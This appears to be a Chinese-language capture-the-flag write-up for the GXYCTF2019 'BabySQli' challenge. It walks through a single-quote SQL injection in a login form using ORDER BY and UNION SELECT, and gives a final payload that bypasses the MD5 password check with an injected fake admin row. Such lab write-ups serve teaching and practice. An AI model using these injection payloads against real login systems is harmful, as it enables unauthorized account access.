

# [GXYCTF2019]BabySQli

## 知识点

`sql注入`

`联合注入`

`绕过密码的md5验证`

## 解题

随便输入一个用户名和密码登录后，发现回显了一串字符，放到`CyberChef`看一下，解出来为



```sql
select * from user where username = '$name'
```

`单引号sql注入`，且有回显，使用联合注入测试，有些被过滤，大写绕过，发现表里有三列

```
1' Order by 3#
```

进行用联合注入，回显wrong user!，说明用户不在第一列

```
1' union select 1,2,3#
```

尝试将用户名放在第二列，回显wrong pass!，找到用户名在第二列

```
1' union select 1,'admin',3#
```

接下里就是要绕过密码的`md5`验证，需要把我们输入的值和数据库里面存放的用户密码的`md5`值进行比较，那要怎么绕过呢？可以用联合查询语句用来生成虚拟的表数据

首先可以看到该表只有一个用户


 然后我们可以用联合查询的方式将查询的数据插入到表中


这题的知识点是绕过密码的`md5`验证

 通过这样的方式，我们就可以用构造`payload`

用户名输入（`202cb962ac59075b964b07152d234b70`是 `123`的`md5`值）

```sql
name=1'union%20select%201,'admin','202cb962ac59075b964b07152d234b70'%23&pw=123
```

[参考文章](https://www.cnblogs.com/gaonuoqi/p/12355035.html)